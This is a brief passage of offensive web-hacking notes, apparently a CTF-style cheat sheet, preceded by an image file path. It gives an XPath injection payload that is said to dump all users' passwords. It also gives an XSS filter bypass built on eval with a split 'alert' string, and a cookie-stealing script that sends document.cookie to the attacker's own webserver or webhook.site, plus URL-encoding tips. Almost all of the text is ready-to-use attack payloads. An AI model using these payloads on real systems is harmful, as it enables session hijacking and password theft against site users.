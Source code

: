   * if the node's name is **password** then to look at **child nodes of password** :

    `hacker']/parent::*/password%00` 

    OUTPUT: (lists the passwords of all users)

### XSS

* `eval()` function if `alert()` is blocked

  `<script>eval("ale"+"rt(1)")</script>`

  encode + as %2b

* we can also do `/index.php/abcd` any page and see its reflection in 404 page

* to steal `cookie`

  ```
  <script>
  document.write('<img src="[URL]?c='+document.cookie+'" />');
  </script>
  ```

  [URL] is the url of your webserver or webhook.site

  encode '+' as '%2b'

